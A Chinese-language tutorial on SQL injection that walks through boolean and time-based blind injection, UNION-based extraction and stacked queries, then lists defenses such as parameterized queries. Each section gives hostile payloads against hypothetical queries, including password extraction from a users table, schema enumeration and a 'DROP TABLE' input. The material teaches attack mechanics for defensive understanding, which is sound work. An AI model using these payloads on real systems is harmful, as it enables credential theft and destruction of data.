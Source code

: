 # SQL注入的常见攻击手法实战演练

## 1. 概述

SQL注入（SQL Injection）是一种常见的Web应用程序安全漏洞，攻击者通过在用户输入中插入恶意的SQL代码，从而操纵数据库查询，获取敏感数据或执行未经授权的操作。本文将详细说明几种常见的SQL注入攻击手法，包括盲注、时间盲注、联合查询等，并提供实战演练示例。

## 2. 盲注（Blind SQL Injection）

盲注是一种SQL注入攻击手法，攻击者无法直接看到数据库的查询结果，但可以通过应用程序的响应来判断查询是否成功。盲注通常分为基于布尔（Boolean-based）和基于时间（Time-based）两种。

### 2.1 基于布尔的盲注

在基于布尔的盲注中，攻击者通过构造SQL查询，使得应用程序返回不同的响应（如真或假），从而推断出数据库中的信息。

**实战演练：**

假设有一个登录页面，用户输入用户名和密码后，应用程序执行以下SQL查询：

```sql
SELECT * FROM users WHERE username = 'user_input' AND password = 'pass_input';
```

攻击者可以尝试以下输入：

```sql
username: admin' AND 1=1 --
password: anything
```

构造的SQL查询为：

```sql
SELECT * FROM users WHERE username = 'admin' AND 1=1 --' AND password = 'anything';
```

如果应用程序返回登录成功，说明`1=1`为真，即SQL注入成功。攻击者可以进一步构造查询，如：

```sql
username: admin' AND SUBSTRING((SELECT TOP 1 password FROM users), 1, 1) = 'a' --
password: anything
```

通过不断尝试，攻击者可以逐个字符地推断出密码。

### 2.2 基于时间的盲注

在基于时间的盲注中，攻击者通过构造SQL查询，使得应用程序在特定条件下延迟响应，从而判断查询是否成功。

**实战演练：**

假设有一个搜索页面，用户输入关键词后，应用程序执行以下SQL查询：

```sql
SELECT * FROM products WHERE name LIKE '%user_input%';
```

攻击者可以尝试以下输入：

```sql
keyword: '; IF (1=1) WAITFOR DELAY '0:0:5' --
```

构造的SQL查询为：

```sql
SELECT * FROM products WHERE name LIKE '%'; IF (1=1) WAITFOR DELAY '0:0:5' --%';
```

如果应用程序延迟5秒后返回结果，说明`1=1`为真，即SQL注入成功。攻击者可以进一步构造查询，如：

```sql
keyword: '; IF (SUBSTRING((SELECT TOP 1 password FROM users), 1, 1) = 'a') WAITFOR DELAY '0:0:5' --
```

通过不断尝试，攻击者可以逐个字符地推断出密码。

## 3. 联合查询（Union-based SQL Injection）

联合查询是一种SQL注入攻击手法，攻击者通过构造`UNION`查询，将恶意查询的结果与原始查询的结果合并，从而获取数据库中的信息。

**实战演练：**

假设有一个新闻页面，用户输入新闻ID后，应用程序执行以下SQL查询：

```sql
SELECT title, content FROM news WHERE id = user_input;
```

攻击者可以尝试以下输入：

```sql
id: 1 UNION SELECT username, password FROM users --
```

构造的SQL查询为：

```sql
SELECT title, content FROM news WHERE id = 1 UNION SELECT username, password FROM users --;
```

如果应用程序返回了用户名和密码，说明联合查询成功。攻击者可以进一步构造查询，如：

```sql
id: 1 UNION SELECT table_name, column_name FROM information_schema.columns --
```

通过联合查询，攻击者可以获取数据库的表结构和数据。

## 4. 堆叠查询（Stacked Queries）

堆叠查询是一种SQL注入攻击手法，攻击者通过构造多个SQL查询，使得应用程序依次执行这些查询，从而执行未经授权的操作。

**实战演练：**

假设有一个评论页面，用户输入评论内容后，应用程序执行以下SQL查询：

```sql
INSERT INTO comments (content) VALUES ('user_input');
```

攻击者可以尝试以下输入：

```sql
content: '; DROP TABLE comments; --
```

构造的SQL查询为：

```sql
INSERT INTO comments (content) VALUES (''); DROP TABLE comments; --');
```

如果应用程序执行了`DROP TABLE comments;`，说明堆叠查询成功，评论表被删除。

## 5. 防御措施

为了防止SQL注入攻击，开发者应采取以下防御措施：

1. **使用参数化查询（Prepared Statements）：** 参数化查询可以防止用户输入被解释为SQL代码。
2. **输入验证和过滤：** 对用户输入进行严格的验证和过滤，确保输入符合预期格式。
3. **使用ORM框架：** ORM框架可以自动处理SQL查询，减少手动编写SQL代码的风险。
4. **最小权限原则：** 数据库用户应具有最小必要的权限，避免攻击者执行危险操作。
5. **定期安全审计：** 定期对应用程序进行安全审计，及时发现和修复漏洞。

## 6. 总结

SQL注入是一种严重的安全威胁，攻击者可以通过盲注、时间盲注、联合查询等手法获取敏感数据或执行未经授权的操作。开发者应充分了解这些攻击手法，并采取有效的防御措施，确保Web应用程序的安全性。通过实战演练，可以更好地理解和应对SQL注入攻击。

---

*文档生成时间: 2025-03-11 11:36:36*

